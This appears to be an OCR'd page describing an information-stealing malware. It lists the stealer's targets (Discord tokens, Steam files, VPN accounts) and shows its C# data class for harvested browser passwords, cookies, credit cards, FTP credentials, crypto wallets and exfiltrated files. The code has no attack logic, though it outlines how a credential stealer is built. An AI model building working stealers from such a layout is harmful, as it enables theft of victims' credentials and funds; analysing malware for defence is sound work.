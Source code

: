   * Grabs Discord tokens file `tokens.txt`

  * Grabs Steam config file containing Steam ID

  * Fethces `OpenVPN`, `NordVPN` and `ProtonVPN` accounts.

```c#
public class ScanDetails
{
        // >> Installed security software
 [DataMember(Name = "SecurityUtils")]
 public List<string> SecurityUtils { get; set; } = new List<string>();

 [DataMember(Name = "AvailableLanguages")]
 public List<string> AvailableLanguages { get; set; } = new List<string>();

        // >> Installed software
 [DataMember(Name = "Softwares")]
 public List<string> Softwares { get; set; } = new List<string>();

        // >> All running processes (PID, Name and Commandline)
 [DataMember(Name = "Processes")]
 public List<string> Processes { get; set; } = new List<string>();

        // >> System hardware information (CPU, GPU and RAM)
 [DataMember(Name = "SystemHardwares")]
 public List<SystemHardware> SystemHardwares { get; set; } = new List<SystemHardware>();

        // >> Parsed browsers data (Name, Profile, Autofill Passwords, Logins, CreditCards and Cookies)
 [DataMember(Name = "Browsers")]
 public List<ScannedBrowser> Browsers { get; set; } = new List<ScannedBrowser>();

        // >> Parsed FTP (FileZilla) credentials (URLs, Username and Passwords)
 [DataMember(Name = "FtpConnections")]
 public List<Account> FtpConnections { get; set; } = new List<Account>();

        // >> Installed broswers (Name, Version and Path)
 [DataMember(Name = "InstalledBrowsers")]
 public List<BrowserVersion> InstalledBrowsers { get; set; } = new List<BrowserVersion>();

        // >> Exfiltrated files data (Path, Directory, Name, File body and Application name)
 [DataMember(Name = "ScannedFiles")]
 public List<ScannedFile> ScannedFiles { get; set; } = new List<ScannedFile>();

        // >> Steam config file
 [DataMember(Name = "GameLauncherFiles")]
 public List<ScannedFile> GameLauncherFiles { get; set; } = new List<ScannedFile>();

        // >> Parsed wallets data
 [DataMember(Name = "ScannedWallets")]
 public List<ScannedFile> ScannedWallets { get; set; } = new List<ScannedFile>();

        // >> Parsed NordVPN account credentials
 [DataMember(Name = "Nord")]
 public List<Account> NordAccounts { get; set; }

        // >> Parsed OpenVPN account credentials
 [DataMember(Name = "Open")]
 public List<ScannedFile> Open { get; set; }

        // >> Parsed ProtonVPN account credentials
 [DataMember(Name = "Proton")]
 public List<ScannedFile> Proton { get; set; }

```